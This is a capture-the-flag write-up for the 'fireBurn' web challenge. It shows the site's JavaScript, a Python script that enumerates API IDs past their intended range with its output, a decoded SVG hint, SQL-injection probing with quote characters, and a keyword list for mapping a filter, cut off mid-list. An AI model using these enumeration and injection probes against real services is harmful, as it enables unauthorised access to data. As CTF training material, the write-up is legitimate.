




# fireBurn



## Information gathering

The website consists of an input, where we can "chat" with an ia.


After some testing, if we let the original question (that changes each refresh), then the ia answers correctly, if we try something else, the answer is one that can be answered for any questions.

After searching a bit in the source code, I found the file `script.js`.

```js
$( document ).ready(function() {
    var action = function() {
        i = 0;
        sentence = "";
        //TODO: modify this to handle more sentences, maybe later... :(
        $.get( "/api/sentence", { id: Math.floor(Math.random() * 40) + 1 }, function( data ) {
            if (!data.errmsg) {
                txt = data.sentence;
                id = data.id;
                $('input[name="id"]').val(id);
                for (let i = 0; i < txt.length; i++) {
                    setTimeout(function(){
                        sentence += txt.charAt(i);
                        $('input[name="question"]').val(sentence);
                    }, i*20)
                }
            }
        }, "json" );
    };
    var prompt = setInterval(action, 5000);
    action();

    $('input[name="question"]').on( "focusin click", function() {
        clearInterval(prompt);
        $('input[name="question"]').val('');
        $('input[name="id"]').val('');
    });

    $('form[name="search"]').on( "submit", function(e) {
        clearInterval(prompt);
        $.get( "/api/search", { id: $('input[name="id"]').val(), search: $('input[name="question"]').val()}, function( data ) {
            $('div[name="output"]').removeClass('invisible');
            $('span[name="result"]').text(data.answer);
        }, "json" );
        e.preventDefault();
    });
});
```

We can see that the API has 2 endpoints `/api/sentence` that genreates a sentence and `/api/search` that genreates the answer.

We can see that the id generated in the sentence can go futher than 40, let's try to see what happens if we go further.


```py
import requests, time

session = requests.Session()

i = 40
while True:
    print(session.get(f"http://instances.challenge-ecw.fr:42583/api/sentence?id={i}").text)
    print(session.get(f"http://instances.challenge-ecw.fr:42583/api/search?id={i}").text)
    i += 1
    time.sleep(0.1)
```


```
{"status":"ok","id":40,"sentence":"What are some effective ways to manage and reduce anxiety in high-pressure situations?"}
{"status":"ok","id":40,"answer":"Deep breathing, positive self-talk, and visualization techniques."}
{"status":"ok","id":41,"sentence":"What are some fun and engaging board games to play with family and friends?"}
{"status":"ok","id":41,"answer":"\"Settlers of Catan\", \"Ticket to Ride\", and \"Codenames\" are popular options."}
{"status":"ok","id":42,"sentence":"What are some useful hints in order to solve this challenge in a smart way?"}
{"status":"ok","id":42,"answer":"PD94bWwgdIoMTgNDcgMTAuMTIDYuO.................FwPSJyb3VuZCIgLz4KPC9nPgo8L2c+CjwvZz4KPC9zdmc+Cg=="}      
{"status":"ok","id":43,"sentence":"What are some strategies for building and maintaining a strong and supportive social network?"}
{"status":"ok","id":43,"answer":"Joining social groups, attending events, and staying in touch with friends and family."}
{"status":"ok","id":44,"sentence":"What are some easy and effective ways to reduce and manage stress in your daily life?"}
{"status":"ok","id":44,"answer":"Taking breaks, practicing mindfulness, and engaging in relaxing activities."}
{"status":"ok","id":45,"sentence":"What are some fun and engaging indoor and outdoor activities for children during the summer?"}
{"status":"ok","id":45,"answer":"Swimming, hiking, and outdoor sports for outdoors; board games, movie nights, and crafts for indoors."}
{"status":"ok","id":46,"sentence":"What are some simple and effective strategies for managing and reducing clutter in your home?"}
{"status":"ok","id":46,"answer":"Purging items regularly, organizing items by category, and storing items in designated areas."}
{"status":"ok","id":47,"sentence":"What are some fun and unique hobbies to explore?"}
{"status":"ok","id":47,"answer":"Gardening, photography, and hiking are enjoyable options."}
{"status":"ok","id":48,"sentence":"What are some effective ways to manage and reduce workplace stress?"}
{"status":"ok","id":48,"answer":"Setting boundaries, practicing self-care, and prioritizing tasks."}
{"status":"ok","id":49,"sentence":"What are some tips for improving your public speaking skills?"}
{"status":"ok","id":49,"answer":"Practicing, using visual aids, and maintaining eye contact with the audience are effective strategies."}
{"status":"ok","id":50,"sentence":"What are some effective ways to stay motivated while working on a long-term project?"}
{"status":"ok","id":50,"answer":"Set goals, break it down, take breaks, and keep the end goal in mind."}
{"status":"not found"}
{"status":"error"}
{"status":"not found"}
```

If we decode the base64, it gives [this](scripts/hint.html) xml document

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" width="1080" height="1080" viewBox="0 0 1080 1080" xml:space="preserve">
<defs>
</defs>
<g transform="matrix(1 0 0 1 540 540)" id="2d347943-2a13-4b9b-89d1-b7bc5f2524d3"  >
<rect style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(255,255,255); fill-rule: nonzero; opacity: 1; visibility: hidden;" vector-effect="non-scaling-stroke"  x="-540" y="-540" rx="0" ry="0" width="1080" height="1080" />
</g>
<g transform="matrix(1 0 0 1 540 540)" id="4c7df222-ff56-4991-a8ec-d35df092ac20"  >
</g>
<g transform="matrix(9.2 0 0 9.2 232.89 540)"  >
<g style="" vector-effect="non-scaling-stroke"   >
		<g transform="matrix(1 0 0 1 0 0)"  >
<path style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(252,234,43); fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-36, -35.87)" d="M 51.3344 58.3018 C 58.897400000000005 48.5124 55.3662 36.4297 53.7805 32.733000000000004 C 53.6006 32.313700000000004 52.850300000000004 32.1764 52.798500000000004 32.632400000000004 C 52.676 33.71210000000001 52.3924 34.993500000000004 50.7944 34.606 C 49.9741 34.4071 49.4465 34.050000000000004 49.4465 32.7258 C 49.9575 17.6764 38.9356 7.4289999999999985 35.1002 4.190200000000001 C 34.5899 3.759300000000001 33.8334 4.219500000000001 33.9415 4.894100000000001 C 36.3975 20.2289 32.3336 19.1787 30.842899999999997 18.7133 C 30.583599999999997 18.6323 30.302099999999996 18.7679 30.182599999999997 19.0207 C 25.594399999999997 28.7221 26.771399999999996 33.286 26.663599999999995 36.4662 C 26.663599999999995 36.7231 26.663599999999995 37.1532 26.663599999999995 37.4243 C 26.663599999999995 39.170300000000005 25.248199999999997 40.0065 24.102899999999995 39.4957 C 22.048399999999994 38.5794 21.698199999999993 33.1228 21.689499999999995 31.6722 C 21.685399999999994 30.9894 20.880099999999995 30.7931 20.487499999999997 31.3402 C 11.682699999999997 43.6072 18.162399999999998 54.5376 20.405299999999997 57.6573 C 21.051199999999998 58.5557 21.307799999999997 59.7321 20.940699999999996 60.7871 C 20.899499999999996 60.9054 20.851099999999995 61.0223 20.794199999999996 61.1361 C 20.395399999999995 61.9342 21.464899999999997 62.5361 21.464899999999997 62.5361 C 22.780399999999997 63.769999999999996 26.929999999999996 67.7167 35.7466 67.7166 C 42.881 67.7165 47.6944 64.6571 49.5763 62.9919 C 50.4592 62.2107 50.8524 62.1325 50.849500000000006 61.309200000000004 C 50.8459 60.3243 50.8238 58.8066 51.3344 58.3018" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -0.66 13.22)"  >
<path style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(241,179,28); fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-35.34, -49.09)" d="M 36.2938 32.5579 C 35.999199999999995 34.0188 34.974199999999996 36.559799999999996 32.0866 40.907799999999995 C 32.0274 41.014199999999995 31.969399999999997 41.118199999999995 31.910199999999996 41.224599999999995 C 31.601399999999995 41.9139 30.554699999999997 44.565999999999995 30.848499999999994 48.275999999999996 C 30.848499999999994 48.2761 30.848499999999994 48.275999999999996 30.848499999999994 48.2761 C 30.848299999999995 48.2779 30.275499999999994 52.6131 27.871499999999994 52.2518 C 27.361999999999995 52.175200000000004 26.950099999999996 52.001200000000004 26.617399999999993 51.7746 C 26.006899999999995 51.3587 25.193999999999992 51.882799999999996 25.268499999999992 52.6271 C 25.587999999999994 55.8195 26.871899999999993 60.7093 31.421099999999992 64.2992 C 31.421099999999992 64.2992 32.70429999999999 65.359 32.86259999999999 66.274 C 32.867799999999995 66.3043 32.8916 66.3246 32.921699999999994 66.3246 L 38.19579999999999 66.3246 C 38.37899999999999 66.3246 38.40409999999999 66.3006 38.409299999999995 66.26520000000001 C 38.4449 66.025 38.773599999999995 65.01480000000001 41.61169999999999 62.492000000000004 C 43.60829999999999 60.717200000000005 44.77689999999999 58.594 45.35409999999999 57.143800000000006 C 45.55889999999999 56.62930000000001 45.25309999999999 56.026500000000006 44.71519999999999 55.937000000000005 C 44.37139999999999 55.8798 44.00249999999999 55.5767 43.70189999999999 54.752900000000004 C 43.701599999999985 54.751900000000006 43.701599999999985 54.752 43.701199999999986 54.751000000000005 C 43.69489999999998 54.727500000000006 43.48449999999998 53.91270000000001 44.30249999999999 52.191500000000005 C 44.682999999999986 51.3909 44.72669999999999 50.52700000000001 44.66249999999999 49.82600000000001 C 44.60459999999999 49.19380000000001 43.939199999999985 48.82800000000001 43.38089999999999 49.110400000000006 C 42.59699999999999 49.50690000000001 41.51149999999999 49.640800000000006 40.78159999999999 48.03510000000001 C 40.78159999999999 48.03510000000001 40.12319999999999 46.468900000000005 40.69569999999999 42.583600000000004 C 41.132699999999986 39.618 39.68509999999999 34.722100000000005 37.86779999999999 32.2089 C 37.4192 31.5887 36.4459 31.8032 36.2938 32.5579 z" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -0.25 28.42)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-35.75, -64.29)" d="M 21.6298 61.5562 C 25.1088 65.167 30.299999999999997 67.0316 35.622299999999996 67.0316 C 40.676899999999996 67.0316 46.33 65.0692 49.86319999999999 61.5639" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 0.07 -4.78)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-36.07, -31.09)" d="M 21.5108 57.4557 C 21.5108 57.4557 10.9787 46.254599999999996 21.0562 31.4766 C 21.0562 31.4766 21.2531 35.5355 22.3113 38.0582 C 22.7947 39.0944 23.5235 40.0151 24.66 40.0151 C 25.9955 40.0151 27.0781 39.1179 27.0781 37.4443 C 27.0781 37.1844 27.0781 36.7722 27.0781 36.5259 C 27.1831 33.4263 26.553 28.86 30.648899999999998 19.3359 C 30.648899999999998 19.3359 37.6854 23.1194 34.639799999999994 4.723699999999999 C 34.639799999999994 4.723699999999999 49.5196 15.165799999999999 48.916 32.9407 C 48.916 34.21 49.883799999999994 35.239 51.0777 35.239 C 52.27160000000001 35.239 53.2394 34.209999999999994 53.2394 32.9407 C 53.314400000000006 33.074799999999996 59.5613 46.018699999999995 50.7254 57.4557" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -11.4 -16.47)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-24.6, -19.4)" d="M 22.8203 22.9729 C 23.0183 21.9371 23.5285 20.6927 24.7431 19.6544 C 24.7431 19.6544 26.6452 18.0189 26.3384 15.823899999999998" stroke-linecap="round" />
</g>
</g>
</g>
<g transform="matrix(11.21 0 0 11.21 760.09 568.43)"  >
<g style="" vector-effect="non-scaling-stroke"   >
		<g transform="matrix(1 0 0 1 -0.06 -3.65)"  >
<path style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(106,70,47); fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-35.31, -32.41)" d="M 40.203 22 C 40.203 22 43.3248 13 51.6497 18 C 51.6497 18 60.234700000000004 18.75 60.625 21.375 C 60.625 21.375 52.6904 23 50.6091 27 C 48.5278 31 53.7309 34 45.275999999999996 42.625 C 45.275999999999996 42.625 41.243599999999994 47 35 47 C 35 47 13 50 10 47" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -6.91 -0.13)"  >
<path style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(165,121,57); fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-28.46, -35.92)" d="M 10.125 46.875 C 10.125 46.875 35 24 43 25 C 51 26 45 38.25 37.5 42.625 C 30 47 10.125 46.875 10.125 46.875 z" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -0.56 18.76)"  >
<line style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  x1="-2.1875" y1="0.8125" x2="2.1875" y2="-0.8125" />
</g>
		<g transform="matrix(1 0 0 1 1.89 -0.51)"  >
<path style="stroke: none; stroke-width: 1; stroke-dasharray: none; stroke-linecap: butt; stroke-dashoffset: 0; stroke-linejoin: miter; stroke-miterlimit: 4; fill: rgb(0,0,0); fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-37.27, -35.55)" d="M 42.8504 29.4692 C 42.106 29.3264 41.9156 29.9806 41.9156 29.9806 L 41.915099999999995 29.9806 C 41.231399999999994 32.1466 38.8499 37.1175 31.427999999999997 40.0635 L 31.433999999999997 40.0717 C 31.433999999999997 40.0717 30.672099999999997 40.2746 30.990999999999996 41.0995 C 31.266699999999997 41.8117 31.971199999999996 41.6547 32.1577 41.5983 C 40.4602 38.271100000000004 42.9396 32.4874 43.6053 30.2585 C 43.6638 30.0615 43.5899 29.6108 42.8504 29.4692 z" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 1.94 -1.12)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-37.31, -34.94)" d="M 31.625 40.875 C 31.625 40.875 40 39 43 29" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 12.44 -0.31)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-47.81, -35.74)" d="M 41 22 C 41 22 44 13 52 18 C 52 18 60.25 18.75 60.625 21.375 C 60.625 21.375 53 23 51 27 C 49 31 54 34 45.875 42.625 C 45.875 42.625 42 47 36 47 L 35 49 L 37 54 L 43 55" stroke-linecap="round" />
</g>
		<g transform="matrix(1 0 0 1 -6.91 -0.13)"  >
<path style="stroke: rgb(0,0,0); stroke-width: 2; stroke-dasharray: none; stroke-linecap: round; stroke-dashoffset: 0; stroke-linejoin: round; stroke-miterlimit: 10; fill: none; fill-rule: nonzero; opacity: 1;" vector-effect="non-scaling-stroke"  transform=" translate(-28.46, -35.92)" d="M 10.125 46.875 C 10.125 46.875 35 24 43 25 C 51 26 45 38.25 37.5 42.625 C 30 47 10.125 46.875 10.125 46.875 z" stroke-linecap="round" />
</g>
</g>
</g>
</svg>
```



Well, thats ...... cool

Let's see what happens in the api when I send strange things.





Ok, so the endpoint `/api/sentence` doesn't seems vulnerable to sql injections, but `/api/serach` gives an error, which is a really good news.

After digging a litle more, 

```
id=3
id='3'
id="3" -> error
```

So, '' works, but not "", strange. There are also banned words, lets try to see what are the words we can use.

```py
sqlwords = ["A","ABORT","ABS","ABSOLUTE","ACCESS","ACTION","ADA","ADD","ADMIN","AFTER","AGGREGATE","ALIAS","ALL","ALLOCATE","ALSO","ALTER","ALWAYS","ANALYSE","ANALYZE","AND","ANY","ARE","ARRAY","AS","ASC","ASENSITIVE","ASSERTION","ASSIGNMENT","ASYMMETRIC","AT","ATOMIC","ATTRIBUTE","ATTRIBUTES","AUDIT","AUTHORIZATION","AUTO_INCREMENT","AVG","AVG_ROW_LENGTH","BACKUP","BACKWARD","BEFORE","BEGIN","BERNOULLI","BETWEEN","BIGINT","BINARY","BIT","BIT_LENGTH","BITVAR","BLOB","BOOL","BOOLEAN","BOTH","BREADTH","BREAK","BROWSE","BULK","BY","C","CACHE","CALL","CALLED","CARDINALITY","CASCADE","CASCADED","CASE","CAST","CATALOG","CATALOG_NAME","CEIL","CEILING","CHAIN","CHANGE","CHAR","CHAR_LENGTH","CHARACTER","CHARACTER_LENGTH","CHARACTER_SET_CATALOG","CHARACTER_SET_NAME","CHARACTER_SET_SCHEMA","CHARACTERISTICS","CHARACTERS","CHECK","CHECKED","CHECKPOINT","CHECKSUM","CLASS","CLASS_ORIGIN","CLOB","CLOSE","CLUSTER","CLUSTERED","COALESCE","COBOL","COLLATE","COLLATION","COLLATION_CATALOG","COLLATION_NAME","COLLATION_SCHEMA","COLLECT","COLUMN","COLUMN_NAME","COLUMNS","COMMAND_FUNCTION","COMMAND_FUNCTION_CODE","COMMENT","COMMIT","COMMITTED","COMPLETION","COMPRESS","COMPUTE","CONDITION","CONDITION_NUMBER","CONNECT","CONNECTION","CONNECTION_NAME","CONSTRAINT","CONSTRAINT_CATALOG","CONSTRAINT_NAME","CONSTRAINT_SCHEMA","CONSTRAINTS","CONSTRUCTOR","CONTAINS","CONTAINSTABLE","CONTINUE","CONVERSION","CONVERT","COPY","CORR","CORRESPONDING","COUNT","COVAR_POP","COVAR_SAMP","CREATE","CREATEDB","CREATEROLE","CREATEUSER","CROSS","CSV","CUBE","CUME_DIST","CURRENT","CURRENT_DATE","CURRENT_DEFAULT_TRANSFORM_GROUP","CURRENT_PATH","CURRENT_ROLE","CURRENT_TIME","CURRENT_TIMESTAMP","CURRENT_TRANSFORM_GROUP_FOR_TYPE","CURRENT_USER","CURSOR","CURSOR_NAME","CYCLE","DATA","DATABASE","DATABASES","DATE","DATETIME","DATETIME_INTERVAL_CODE","DATETIME_INTERVAL_PRECISION","DAY","DAY_HOUR","DAY_MICROSECOND","DAY_MINUTE","DAY_SECOND","DAYOFMONTH","DAYOFWEEK","DAYOFYEAR","DBCC","DEALLOCATE","DEC","DECIMAL","DECLARE","DEFAULT","DEFAULTS","DEFERRABLE","DEFERRED","DEFINED","DEFINER","DEGREE","DELAY_KEY_WRITE","DELAYED","DELETE","DELIMITER","DELIMITERS","DENSE_RANK","DENY","DEPTH","DEREF","DERIVED","DESC","DESCRIBE","DESCRIPTOR","DESTROY","DESTRUCTOR","DETERMINISTIC","DIAGNOSTICS","DICTIONARY","DISABLE","DISCONNECT","DISK","DISPATCH","DISTINCT","DISTINCTROW","DISTRIBUTED","DIV","DO","DOMAIN","DOUBLE","DROP","DUAL","DUMMY","DUMP","DYNAMIC","DYNAMIC_FUNCTION","DYNAMIC_FUNCTION_CODE","EACH","ELEMENT","ELSE","ELSEIF","ENABLE","ENCLOSED","ENCODING","ENCRYPTED","END","END-EXEC","ENUM","EQUALS","ERRLVL","ESCAPE","ESCAPED","EVERY","EXCEPT","EXCEPTION","EXCLUDE","EXCLUDING","EXCLUSIVE","EXEC","EXECUTE","EXISTING","EXISTS","EXIT","EXP","EXPLAIN","EXTERNAL","EXTRACT","FALSE","FETCH","FIELDS","FILE","FILLFACTOR","FILTER","FINAL","FIRST","FLOAT","FLOAT4","FLOAT8","FLOOR","FLUSH","FOLLOWING","FOR","FORCE","FOREIGN","FORTRAN","FORWARD","FOUND","FREE","FREETEXT","FREETEXTTABLE","FREEZE","FROM","FULL","FULLTEXT","FUNCTION","FUSION","G","GENERAL","GENERATED","GET","GLOBAL","GO","GOTO","GRANT","GRANTED","GRANTS","GREATEST","GROUP","GROUPING","HANDLER","HAVING","HEADER","HEAP","HIERARCHY","HIGH_PRIORITY","HOLD","HOLDLOCK","HOST","HOSTS","HOUR","HOUR_MICROSECOND","HOUR_MINUTE","HOUR_SECOND","IDENTIFIED","IDENTITY","IDENTITY_INSERT","IDENTITYCOL","IF","IGNORE","ILIKE","IMMEDIATE","IMMUTABLE","IMPLEMENTATION","IMPLICIT","IN","INCLUDE","INCLUDING","INCREMENT","INDEX","INDICATOR","INFILE","INFIX","INHERIT","INHERITS","INITIAL","INITIALIZE","INITIALLY","INNER","INOUT","INPUT","INSENSITIVE","INSERT","INSERT_ID","INSTANCE","INSTANTIABLE","INSTEAD","INT","INT1","INT2","INT3","INT4","INT8","INTEGER","INTERSECT","INTERSECTION","INTERVAL","INTO","INVOKER","IS","ISAM","ISNULL","ISOLATION","ITERATE","JOIN","K","KEY","KEY_MEMBER","KEY_TYPE","KEYS","KILL","LANCOMPILER","LANGUAGE","LARGE","LAST","LAST_INSERT_ID","LATERAL","LEAD","LEADING","LEAST","LEAVE","LEFT","LENGTH","LESS","LEVEL","LIKE","LIMIT","LINENO","LINES","LISTEN","LN","LOAD","LOCAL","LOCALTIME","LOCALTIMESTAMP","LOCATION","LOCATOR","LOCK","LOGIN","LOGS","LONG","LONGBLOB","LONGTEXT","LOOP","LOW_PRIORITY","LOWER","M","MAP","MATCH","MATCHED","MAX","MAX_ROWS","MAXEXTENTS","MAXVALUE","MEDIUMBLOB","MEDIUMINT","MEDIUMTEXT","MEMBER","MERGE","MESSAGE_LENGTH","MESSAGE_OCTET_LENGTH","MESSAGE_TEXT","METHOD","MIDDLEINT","MIN","MIN_ROWS","MINUS","MINUTE","MINUTE_MICROSECOND","MINUTE_SECOND","MINVALUE","MLSLABEL","MOD","MODE","MODIFIES","MODIFY","MODULE","MONTH","MONTHNAME","MORE","MOVE","MULTISET","MUMPS","MYISAM","NAME","NAMES","NATIONAL","NATURAL","NCHAR","NCLOB","NESTING","NEW","NEXT","NO","NO_WRITE_TO_BINLOG","NOAUDIT","NOCHECK","NOCOMPRESS","NOCREATEDB","NOCREATEROLE","NOCREATEUSER","NOINHERIT","NOLOGIN","NONCLUSTERED","NONE","NORMALIZE","NORMALIZED","NOSUPERUSER","NOT","NOTHING","NOTIFY","NOTNULL","NOWAIT","NULL","NULLABLE","NULLIF","NULLS","NUMBER","NUMERIC","OBJECT","OCTET_LENGTH","OCTETS","OF","OFF","OFFLINE","OFFSET","OFFSETS","OIDS","OLD","ON","ONLINE","ONLY","OPEN","OPENDATASOURCE","OPENQUERY","OPENROWSET","OPENXML","OPERATION","OPERATOR","OPTIMIZE","OPTION","OPTIONALLY","OPTIONS","OR","ORDER","ORDERING","ORDINALITY","OTHERS","OUT","OUTER","OUTFILE","OUTPUT","OVER","OVERLAPS","OVERLAY","OVERRIDING","OWNER","PACK_KEYS","PAD","PARAMETER","PARAMETER_MODE","PARAMETER_NAME","PARAMETER_ORDINAL_POSITION","PARAMETER_SPECIFIC_CATALOG","PARAMETER_SPECIFIC_NAME","PARAMETER_SPECIFIC_SCHEMA","PARAMETERS","PARTIAL","PARTITION","PASCAL","PASSWORD","PATH","PCTFREE","PERCENT","PERCENT_RANK","PERCENTILE_CONT","PERCENTILE_DISC","PLACING","PLAN","PLI","POSITION","POSTFIX","POWER","PRECEDING","PRECISION","PREFIX","PREORDER","PREPARE","PREPARED","PRESERVE","PRIMARY","PRINT","PRIOR","PRIVILEGES","PROC","PROCEDURAL","PROCEDURE","PROCESS","PROCESSLIST","PUBLIC","PURGE","QUOTE","RAID0","RAISERROR","RANGE","RANK","RAW","READ","READS","READTEXT","REAL","RECHECK","RECONFIGURE","RECURSIVE","REF","REFERENCES","REFERENCING","REGEXP","REGR_AVGX","REGR_AVGY","REGR_COUNT","REGR_INTERCEPT","REGR_R2","REGR_SLOPE","REGR_SXX","REGR_SXY","REGR_SYY","REINDEX","RELATIVE","RELEASE","RELOAD","RENAME","REPEAT","REPEATABLE","REPLACE","REPLICATION","REQUIRE","RESET","RESIGNAL","RESOURCE","RESTART","RESTORE","RESTRICT","RESULT","RETURN","RETURNED_CARDINALITY","RETURNED_LENGTH","RETURNED_OCTET_LENGTH","RETURNED_SQLSTATE","RETURNS","REVOKE","RIGHT","RLIKE","ROLE","ROLLBACK","ROLLUP","ROUTINE","ROUTINE_CATALOG","ROUTINE_NAME","ROUTINE_SCHEMA","ROW","ROW_COUNT","ROW_NUMBER","ROWCOUNT","ROWGUIDCOL","ROWID","ROWNUM","ROWS","RULE","SAVE","SAVEPOINT","SCALE","SCHEMA","SCHEMA_NAME","SCHEMAS","SCOPE","SCOPE_CATALOG","SCOPE_NAME","SCOPE_SCHEMA","SCROLL","SEARCH","SECOND","SECOND_MICROSECOND","SECTION","SECURITY","SELECT","SELF","SENSITIVE","SEPARATOR","SEQUENCE","SERIALIZABLE","SERVER_NAME","SESSION","SESSION_USER","SET","SETOF","SETS","SETUSER","SHARE","SHOW","SHUTDOWN","SIGNAL","SIMILAR","SIMPLE","SIZE","SMALLINT","SOME","SONAME","SOURCE","SPACE","SPATIAL","SPECIFIC","SPECIFIC_NAME","SPECIFICTYPE","SQL","S